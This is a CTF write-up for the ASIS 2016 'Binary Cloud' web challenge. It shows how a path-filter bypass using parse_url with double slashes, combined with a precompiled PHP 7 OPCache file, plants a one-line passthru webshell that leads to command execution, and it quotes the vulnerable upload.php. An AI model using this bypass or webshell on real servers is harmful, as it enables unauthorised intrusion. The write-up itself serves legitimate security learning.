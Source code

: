 ```yaml
---
layout: post
title: "ASIS CTF 2016: Binary Cloud"
category: Security
date: 2016-05-08
tags:
  - Security
  - CTF
---
```


Binary Cloud claims "Now you can upload any types of files, temporarily."  Let's
see what this means.

![binary cloud](/img/blog/asis-2016/binary_cloud.png)

Rule one of web challenges: check `robots.txt`:

~~~
User-Agent: *
Disallow: /
Disallow: /debug.php
Disallow: /cache
Disallow: /uploads
~~~

So we have some interesting paths there.  `debug.php` turns out to be a
`phpinfo()` page, informing us it's 'PHP Version 7.0.4-7ubuntu2'.  Interesting,
pretty new version.  I play around with the app briefly to see how it's going to
behave, and notice any file ending in `.php` is prohibited.  No direct `.php`
script upload for us.

I got back to the PHPInfo, and notice that if we look closely, we discover the OPCache is enabled, set
to a file directory (within the document root, interestingly).  This reminds me
of a [recent blog post I read](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).  (See kids, this is why it's important to keep up on the news in security!)

Ok, so maybe we need the ability to upload files into the cache directory.
Let's figure out how to get that.  Looking at the upload code, we see this:

~~~
<form action="upload.php?uploads" enctype="multipart/form-data" method="post">
<p>Please specify the file to upload!</p>
<input class="form-control" type="file" name="file"><br>
<input class="form-control" type="submit" value="Upload!">
</form>
~~~

When we upload, we're told it's uploaded to `uploads/filename`.  I notice the
query string of `uploads` on the form action, so I try it with a few different
paths.  If you provide any string including `cache` you get an error, which
makes me believe I'm on the right path but need to figure out how to bypass the
path checks.  This had me stumped for a long time, and I moved back and forth to
other challenges, but eventually I came back and happened upon the fact that if
you provided `//upload.php?/home/binarycloud/www/cache/`, it would work.  (More
on that later.)

So, now we need the opcache file to upload.  I spun up a Ubuntu 16.04 VM to
match the target as closely as possible.  First I needed a php file to create an
opcache for.  I noticed in the PHPInfo that there was a path blacklist,
including the obvious paths:

~~~
/home/binarycloud/www/index.php
/home/binarycloud/www/debug.php
/home/binarycloud/www/home.php
/home/binarycloud/www/upload.php
~~~

However, I also noticed that `/cache/index.php` appeared to be a script, and was
not blacklisted.  So, along with the `system_id` from our test system, I
determined the target path to be
`/home/binarycloud/www/cache/81d80d78c6ef96b89afaadc7ffc5d7ea/home/binarycloud/www/cache/index.php`.
I created a basic webshell on my test server containing `<?PHP
passthru($_GET['x']);` as `/home/binarycloud/www/cache/index.php` (the full path
is embedded in the OpCache file) and grabbed the `index.php.bin` file.  I upload
this and then visit the page `/cache/index.php?x=ls` and am happy to see a
directory listing.  From there it's just a short hop to get the flag in the root
of the system.

###Appendix###

In case you're wondering, I also grabbed the source to upload.php while I had my
shell (because I like to understand problems even after I get the flag) and here
it is:

~~~
<?php

function ew($haystack, $needle) {
    return $needle === "" || (($temp = strlen($haystack) - strlen($needle)) >= 0 && strpos($haystack, $needle, $temp) !== false);
}

function filter_directory(){
	$data = parse_url($_SERVER['REQUEST_URI']);
	$filter = ["cache", "binarycloud"];
	foreach($filter as $f){
		if(preg_match("/".$f."/i", $data['query'])){
			die("Attack Detected");
		}
	}
}

function error($msg){
	die("<script>alert('$msg');history.go(-1);</script>");
}

filter_directory();

if($_SERVER['QUERY_STRING'] && $_FILES['file']['name']){
	if(!file_exists($_SERVER['QUERY_STRING'])) error("error3");
	$name = preg_replace("/[^a-zA-Z0-9\.]/", "", basename($_FILES['file']['name']));
        if(ew($name, ".php")) error("error");
	$filename = $_SERVER['QUERY_STRING'] . "/" . $name;
	if(file_exists($filename)) error("exists");
	if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)){
		die("uploaded at <a href=$filename>$filename</a><hr><a href='javascript:history.go(-1);'>Back</a>");
	}else{
		error("error");
	}
}

?>
	<hr>
	<form action="upload.php?uploads" enctype="multipart/form-data" method="post">
		<p>Please specify the file to upload!</p>
		<input class="form-control" type="file" name="file"><br>
		<input class="form-control" type="submit" value="Upload!">
	</form>
~~~

Notice that filter_directory uses parse_url on the request URI.
This means parsing a path beginning with two slashes and having a query string
beginning with a slash gets treated as a hostname up through the '?', followed
by the path, with no query string.  I'm not sure this is the right way to parse
it, but it worked for me here.  :)
